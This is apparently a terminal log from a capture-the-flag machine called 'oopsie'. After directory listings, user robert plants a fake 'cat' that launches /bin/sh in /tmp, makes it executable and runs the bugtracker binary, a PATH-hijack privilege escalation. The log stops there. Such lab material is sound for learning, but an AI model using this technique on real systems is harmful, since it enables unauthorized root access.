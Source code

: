 ```
lrwxrwxrwx   1 root root         33 Jan 23  2020 initrd.img.old -> boot/initrd.img-4.15.0-74-generic
drwxr-xr-x  23 root root       4096 Jan 27  2020 lib
drwxr-xr-x   2 root root       4096 Aug  5  2019 lib64
drwx------   2 root root      16384 Jan 23  2020 lost+found
drwxr-xr-x   2 root root       4096 Aug  5  2019 media
drwxr-xr-x   2 root root       4096 Aug  5  2019 mnt
drwxr-xr-x   2 root root       4096 Aug  5  2019 opt
dr-xr-xr-x 126 root root          0 Aug 16 19:44 proc
drwx------   8 root root       4096 Mar 20  2020 root
drwxr-xr-x  27 root root        880 Aug 16 19:44 run
drwxr-xr-x   2 root root      12288 Jan 27  2020 sbin
drwxr-xr-x   4 root root       4096 Jan 23  2020 snap
drwxr-xr-x   2 root root       4096 Aug  5  2019 srv
-rw-------   1 root root 2147483648 Jan 23  2020 swap.img
dr-xr-xr-x  13 root root          0 Aug 16 19:44 sys
drwxrwxrwt  11 root root       4096 Aug 16 19:44 tmp
drwxr-xr-x  10 root root       4096 Aug  5  2019 usr
drwxr-xr-x  14 root root       4096 Jan 23  2020 var
lrwxrwxrwx   1 root root         30 Jan 27  2020 vmlinuz -> boot/vmlinuz-4.15.0-76-generic
lrwxrwxrwx   1 root root         30 Jan 23  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-74-generic
robert@oopsie:/$ cd /tmp/
robert@oopsie:/tmp$ ls -al
total 44
drwxrwxrwt 11 root root 4096 Aug 16 19:45 .
drwxr-xr-x 24 root root 4096 Jan 27  2020 ..
drwxrwxrwt  2 root root 4096 Aug 16 19:44 .font-unix
drwxrwxrwt  2 root root 4096 Aug 16 19:44 .ICE-unix
drwx------  3 root root 4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-apache2.service-GDtgP1
drwx------  3 root root 4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-systemd-resolved.service-YriYv1
drwx------  3 root root 4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-systemd-timesyncd.service-q7HLjf
drwxrwxrwt  2 root root 4096 Aug 16 19:44 .Test-unix
drwx------  2 root root 4096 Aug 16 19:44 vmware-root_546-2999591749
drwxrwxrwt  2 root root 4096 Aug 16 19:44 .X11-unix
drwxrwxrwt  2 root root 4096 Aug 16 19:44 .XIM-unix
robert@oopsie:/tmp$ echo PATH=/tmp:$PATH
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
robert@oopsie:/tmp$ echo '/bin/sh' > cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ ls -al
total 48
drwxrwxrwt 11 root   root   4096 Aug 16 19:45 .
drwxr-xr-x 24 root   root   4096 Jan 27  2020 ..
-rwxrwxr-x  1 robert robert    8 Aug 16 19:45 cat
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .font-unix
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .ICE-unix
drwx------  3 root   root   4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-apache2.service-GDtgP1
drwx------  3 root   root   4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-systemd-resolved.service-YriYv1
drwx------  3 root   root   4096 Aug 16 19:44 systemd-private-81c7b18ad4004d6aadcf89d235d5d793-systemd-timesyncd.service-q7HLjf
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .Test-unix
drwx------  2 root   root   4096 Aug 16 19:44 vmware-root_546-2999591749
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .X11-unix
drwxrwxrwt  2 root   root   4096 Aug 16 19:44 .XIM-unix
robert@oopsie:/tmp$ /usr/bin/bugtracker 

------------------
```